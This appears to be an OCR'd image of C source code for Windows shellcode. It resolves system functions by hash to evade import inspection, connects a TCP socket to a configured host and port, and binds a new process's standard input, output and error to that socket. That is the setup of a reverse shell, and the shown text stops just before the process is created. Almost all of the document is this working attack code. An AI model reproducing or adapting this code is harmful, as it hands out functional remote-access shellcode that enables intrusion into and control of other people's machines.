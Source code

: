 ```
#define HASH_inet_addr              0x011bfae2
#define HASH_getaddrinfo            0xdc2953c9
#define HASH_getnameinfo            0x5c1c856e
#define HASH_ExitThread             0x4b3153e0
#define HASH_WaitForSingleObject    0xca8e9498
 
#define DefineFuncPtr(name)     decltype(name) *My_##name = (decltype(name) *)getProcAddrByHash(HASH_##name)
 
int entryPoint() {
//  printf("0x%08x\n", getFunctionHash("kernel32.dll", "WaitForSingleObject"));
//  return 0;
 
    // NOTE: we should call WSACleanup() and freeaddrinfo() (after getaddrinfo()), but
    //       they're not strictly needed.
 
    DefineFuncPtr(LoadLibraryA);
 
    My_LoadLibraryA("ws2_32.dll");
 
    DefineFuncPtr(WSAStartup);
    DefineFuncPtr(WSASocketA);
    DefineFuncPtr(WSAConnect);
    DefineFuncPtr(CreateProcessA);
    DefineFuncPtr(inet_ntoa);
    DefineFuncPtr(inet_addr);
    DefineFuncPtr(getaddrinfo);
    DefineFuncPtr(getnameinfo);
    DefineFuncPtr(ExitThread);
    DefineFuncPtr(WaitForSingleObject);
 
    const char *hostName = "127.0.0.1";
    const int hostPort = 123;
 
    WSADATA wsaData;
 
    if (My_WSAStartup(MAKEWORD(2, 2), &wsaData))
        goto __end;         // error
    SOCKET sock = My_WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
    if (sock == INVALID_SOCKET)
        goto __end;
 
    addrinfo *result;
    if (My_getaddrinfo(hostName, NULL, NULL, &result))
        goto __end;
    char ip_addr[16];
    My_getnameinfo(result->ai_addr, result->ai_addrlen, ip_addr, sizeof(ip_addr), NULL, 0, NI_NUMERICHOST);
 
    SOCKADDR_IN remoteAddr;
    remoteAddr.sin_family = AF_INET;
    remoteAddr.sin_port = htons(hostPort);
    remoteAddr.sin_addr.s_addr = My_inet_addr(ip_addr);
 
    if (My_WSAConnect(sock, (SOCKADDR *)&remoteAddr, sizeof(remoteAddr), NULL, NULL, NULL, NULL))
        goto __end;
 
    STARTUPINFOA sInfo;
    PROCESS_INFORMATION procInfo;
    SecureZeroMemory(&sInfo, sizeof(sInfo));        // avoids a call to _memset
    sInfo.cb = sizeof(sInfo);
    sInfo.dwFlags = STARTF_USESTDHANDLES;
    sInfo.hStdInput = sInfo.hStdOutput = sInfo.hStdError = (HANDLE)sock;
```